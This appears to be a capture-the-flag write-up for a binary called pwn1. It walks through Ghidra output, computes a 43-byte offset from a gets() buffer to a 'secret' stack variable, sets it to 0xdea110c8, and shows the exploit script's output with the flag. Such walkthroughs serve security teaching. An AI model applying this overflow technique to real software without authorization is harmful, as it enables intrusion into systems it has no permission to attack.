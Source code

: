 # pwn1 Writeup

## Steps:
1. Open in ghidra and analyze
	- Notice the first 2 questions have specific strings required as answers
 ```
  puts("What... is your name?");
  fgets(input,0x2b,_stdin);
  iVar1 = strcmp(input,"Sir Lancelot of Camelot\n"); # First Input
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  puts("What... is your quest?");
  fgets(input,0x2b,_stdin);
  iVar1 = strcmp(input,"To seek the Holy Grail.\n"); # Second Input
  if (iVar1 != 0) {
    puts("I don\'t know that! Auuuuuuuugh!");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
```
Notice another input captured with `gets`, which is a function commonly used for exploits
```
  puts("What... is my secret?");
  gets(input);
  if (secret == -0x215eef38) {
    print_flag();
  }
  else {
    puts("I don\'t know that! Auuuuuuuugh!");
  }
```

2. Look at the stack variable layout
```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         <UNASSIGNED>   <RETURN>
             undefined4        Stack[0x0]:4   local_res0                              XREF[2]:     00010780(R), 
                                                                                                   000108df(*)  
             undefined1        Stack[-0x10]:1 local_10                                XREF[1]:     000108d9(*)  
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     000107ad(W)  
             undefined4        Stack[-0x18]:4 secret                                  XREF[2]:     000107b4(W), 
                                                                                                   000108b2(R)  
             undefined1[43]    Stack[-0x43]   input                                   XREF[5]:     000107ed(*), 
                                                                                                   00010803(*), 
                                                                                                   0001084f(*), 
                                                                                                   00010865(*), 
                                                                                                   000108a6(*)  
                             main                                            XREF[5]:     Entry Point(*), 
                                                                                          _start:000105e6(*), 00010ab8, 
                                                                                          00010b4c(*), 00011ff8(*)  

```
input is at `Stack[-0x43]` and the variable we want to change (renamed to 'secret') is at `Stack[-0x18]`.
`0x43 - 0x18 = 0x2b` which is 43 bytes in decimal. Since we can write any number of bytes to input, we can access and change 'secret'

3. Create a payload overwriting the 43 bytes from 'input' to 'secret' and set 'secret = dea110c8`

4. Send payloads to process

## Solution:
```
$ python3 ex_pwn.py
[+] Starting local process './pwn1': pid 53621
[*] Switching to interactive mode
Stop! Who would cross the Bridge of Death must answer me these questions three, ere the other side he see.
What... is your name?
What... is your quest?
What... is my secret?
Right. Off you go.
flag{g0ttem_b0yz}

[*] Got EOF while reading in interactive
$  

```
